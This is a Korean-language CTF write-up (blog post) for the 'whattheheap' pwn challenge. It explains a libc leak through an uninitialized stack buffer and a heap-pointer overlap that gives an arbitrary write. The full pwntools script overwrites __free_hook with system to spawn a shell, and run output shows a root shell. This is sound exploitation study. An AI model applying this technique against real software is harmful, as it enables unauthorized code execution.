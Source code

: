 ```yaml
---
layout: post
title: ! '[h3x0r CTF] whattheheap (pwn 420)'
excerpt_separator: <!--more-->
comments: true
tags:
  - CTF
  - Write-up
---
```


H3x0r CTF가 끝난 후에도 사이트가 열려있어서 덕분에 공부를 많이 하고 있다. pwnable 문제 중 두번째로 낮은 점수를 가지고 있었던 whattheheap 문제를 풀어보았다.

<!--more-->

> nc 49.236.136.140 16000
> 
> nc c2w2m2.com 16000
> 
> [Download](https://h3x0r.kr/uploads/10/whattheheap)
> 
>
> -초록돼지

역시 바이너리를 하나 던져준다.

> root@ubuntu:~/CTF/h3x0r/whattheheap# checksec whattheheap
>
> [*] '/root/CTF/h3x0r/whattheheap/whattheheap'
>
> Arch:     amd64-64-little
>
> RELRO:    Full RELRO
>
> Stack:    Canary found
>
> NX:       NX enabled
>
> PIE:      PIE enabled

Full RELRO, Stack Canary, NX bit, PIE 보호기법이 모두 걸려있다. 이에 주의하면서 문제를 풀어야 한다.

먼저 PIE 보호기법때문에 분석이 어렵다. 이를 우회하는 방법은 [revers3r님의 블로그](http://revers3r.tistory.com/368)를 참고하였다.

![]({{ site.baseurl }}/images/KRater/2018-07-02-whattheheap-writeup/pic01.PNG)

위에 나온 트릭으로 main 함수의 주소를 구할 수 있다. 또한 이를 이용해서 베이스 주소를 구한 뒤, 오프셋을 이용해서 다른 함수들 주소까지도 구할 수 있다. 이렇게 함수 주소를 구해놓은 뒤, 브레이크 포인트 걸 때 참고하면 분석하는게 훨씬 쉬워진다. 오프셋 구하는건 IDA에 아주 잘 나와있으니 참고하면 좋다.

name이 스택 영역 (지역변수)에 있다. 그런데 초기화가 되있지 않아서 많은 주소를 leak할 수 있다. 처음에는 이를 응용해서 함수 주소를 leak한 뒤, got overwrite를 해 보려고 했는데 Full RELRO가 있다는걸 까먹었다.. 그래서 삽질하다가 안된다는걸 깨닫고 다른 방법을 찾았다.

역시 name이 초기화되지 않았다는것을 응용, libc 주소를 leak한다. 임의의 주소에 값을 어떻게 쓸 지 고민하면서 계속 분석하고 있었는데, 마침 좋은 벡터를 찾았다.

![]({{ site.baseurl }}/images/KRater/2018-07-02-whattheheap-writeup/pic02.PNG)

$rbp-0x110은 name이 들어가는 위치이고, $rbp-0x118은 다른 함수들에 인자로 넘겨주는 값이다. (add, delete, edit, print) 그런데 $rbp-0x118에서부터 8*index 만큼 떨어진 위치에 해당 index의 heap 공간을 저장한다. 이렇게 되면 자연스럽게 두 번째 할당된 heap 영역의 주소가 name의 공간을 침범하게 된다. name 공간에 임의의 주소를 작성하고, 이에 해당하는 index의 값을 바꾸면(edit) 임의의 주소 안의 값을 조작할 수 있다.

Full RELRO 우회를 위해 free_hook에 system의 주소를 쓰고, free("/bin/sh")을 system("/bin/sh")로 조작할 것이다. 이를 위해 0번째 index에는 /bin/sh를 써 두고, 이를 delete하도록 한다.

```python
from pwn import *

PROCESS = "./whattheheap"
r = process(PROCESS)

def main () :
	r.send ("name")

	r.recvuntil("> ")
	r.sendline("5")
	r.recvuntil("change.")
	r.send("A"*0x28)

	r.recvuntil("> ")
	r.sendline("6")
	r.recvuntil("A"*0x28)
	data = r.recv(6) + "\x00\x00"

	log.warn("length of data : " + str(len(data)))

	libc_base = u64(data)-0x18c627
	free_hook_addr = libc_base+0x3C67A8
	system_addr = libc_base+0x45390

	log.info("libc_base : " + hex(libc_base))
	log.info("free_hook_addr : " + hex(free_hook_addr))
	log.info("system_addr : " + hex(system_addr))

	add(10, '/bin/sh\x00')
	add(10, 'C'*4)
	add(128, 'D'*120)
	add(128, 'E'*120)

	rename(p64(free_hook_addr))

	edit(1, p64(system_addr))
	delete(0) # trigger system("/bin/sh")

	r.interactive()

def add (size, content) :
	r.recvuntil("> ")
	r.sendline("1")

	r.recvuntil("size : ")
	r.sendline(str(size))
	r.recvuntil("contents : ")
	r.send(content)

def delete (index) :
	r.recvuntil("> ")
	r.sendline("2")

	r.recvuntil("> ")
	r.sendline(str(index))

def edit (index, content) :
	r.recvuntil(">")
	r.sendline("3")

	r.recvuntil(">")
	r.sendline(str(index))
	r.recvuntil("contents : ")
	r.send(content)

def rename (name) :
	r.recvuntil(">")
	r.sendline("5")
	r.recvuntil("to change.")
	r.send(name)

if __name__ == '__main__' :
	main()

```

>root@ubuntu:~/CTF/h3x0r/whattheheap# python ex.py 
>
>[+] Starting local process './whattheheap': pid 48592
>
>[!] length of data : 8
>
>[*] libc_base : 0x7facf1936000
>
>[*] free_hook_addr : 0x7facf1cfc7a8
>
>[*] system_addr : 0x7facf197b390
>
>[*] Switching to interactive mode
>
>$ ls
>
>ex.py  peda-session-whattheheap.txt  sol.py  test.py  whattheheap
>
>$ id
>
>uid=0(root) gid=0(root) groups=0(root)

재밌었다!